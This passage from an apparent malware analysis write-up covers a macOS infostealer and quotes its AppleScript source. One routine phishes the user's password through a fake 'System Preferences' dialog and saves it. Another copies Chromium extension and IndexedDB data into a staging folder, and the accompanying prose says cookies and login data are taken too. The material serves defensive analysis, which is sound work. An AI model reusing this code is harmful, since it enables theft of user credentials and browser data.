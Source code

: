 ```
			writeText(result as string, writemind & "masterpass-chrome")
		else
			repeat
				set result to display dialog "Required Application Helper.\nPlease enter password for continue." default answer "" with icon caution buttons {"Continue"} default button "Continue" giving up after 150 with title "System Preferences" with hidden answer
				set password_entered to text returned of result
				if checkvalid(username, password_entered) then
					writeText(password_entered, writemind & "pwd")
					return password_entered
				end if
			end repeat
		end if
	end try
	return ""
end getpwd
```

The malware then searches for specific plugin-related files from Chromium profiles by cross-checking with a list of plugins to target extensions and IndexedDB data and store them under `writemind`. The malware proceeds to extract other Google Chrome browser data including cookies, web data, login history, etc and store them under `writemind`.
```
on grabPlugins(paths, savePath, pluginList, index)
	try
		set fileList to list folder paths without invisibles
		repeat with PFile in fileList
			repeat with Plugin in pluginList
				if (PFile contains Plugin) then
					set newpath to paths & PFile
					set newsavepath to savePath & "/" & Plugin
					if index then
						set newsavepath to newsavepath & "/IndexedDB/"
					end if
					GrabFolder(newpath, newsavepath)
				end if
			end repeat
		end repeat
	end try
end grabPlugins
on chromium(writemind, chromium_map)
```